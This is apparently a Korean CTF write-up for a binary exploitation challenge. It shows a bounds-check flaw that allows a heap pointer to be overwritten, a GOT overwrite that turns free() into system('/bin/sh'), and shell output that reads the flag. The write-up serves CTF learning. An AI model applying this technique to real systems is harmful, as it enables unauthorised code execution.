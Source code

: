 ## solve

#### menu
```
[1] mov dword register, register
[2] mov dword memory, register
[3] mov dword register, memory
[4] mov dword register, $data
[5] mov qword register, register
[6] mov qword memory, register
[7] mov qword register, memory
[8] mov qword register, $data
[9] sub register, register
[10] sub register, memory
[11] sub register, $data
[12] add register, register
[13] add register, memory
[14] add register, $data
[15] push $string
[16] push dword $data
[17] pop $string
[18] pop dword $data
[19] int 0x80
[20] Exit..
```
</br>

* 8번 메뉴를 통해 rdx에 값을 저장할 수 있다. (그냥 8바이트를 저장할 수 있다.)

* 6번 메뉴에서 레지스터에 있는 값을 메모리에 저장한다. (그냥 8바이트가 리틀엔디안 방식으로 저장이된다.)

</br>

## Vulnerabilities
```
if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
```
* 6번 메뉴에서 범위를 검사하는데 0x804C4DC를 넘으면 안된다.</br>

```
buf = malloc(0x100u);
ptr = malloc(0x400u);
dword_804C4E0 = buf;
dword_804C4E4 = ptr;
```

* 바로 뒤의 804C4e0에는 buf의 주소인 힙의 주소가 저장되어 있는데, 만약 6번 메뉴에서 memory의 주소가 804C4DC로 지정을 하게되면 , 리틀엔디안 방식으로 8바이트가 저장되기 때문에 804C4e0를 overwrite 할 수 있다.

* 따라서 804C4e0에 free함수의 got주소를 overwrite하고 난 뒤, modify메뉴를 이용해서 buf의 값은 system함수의 주소로, ptr의 값은 '/bin/sh\x00' 으로 수정한다. 그리고 종료를 하게 되면 free(ptr)이 호출되고, system('/bin/sh\x00') 이 호출된다.

</br>

## Result
```
~/machome/ctf/doubles_ctf/pwn-400(master*) » python exploit.py k                                     stitch@certis
 OK..
[ Virtual Assembly System ]
[1] Show Examples
[2] Generate Assembly
[3] Modify Name and Description
[4] Help
[5] Exit
-> $ 5
Bye Bye~~
\x00$ id
uid=1002(prob02) gid=1002(prob02) groups=1002(prob02)
$ ls /home/prob02
asm
flag
$ cat /home/prob02/flag
flag{4sm_1s_s0_h4rd}
$
```
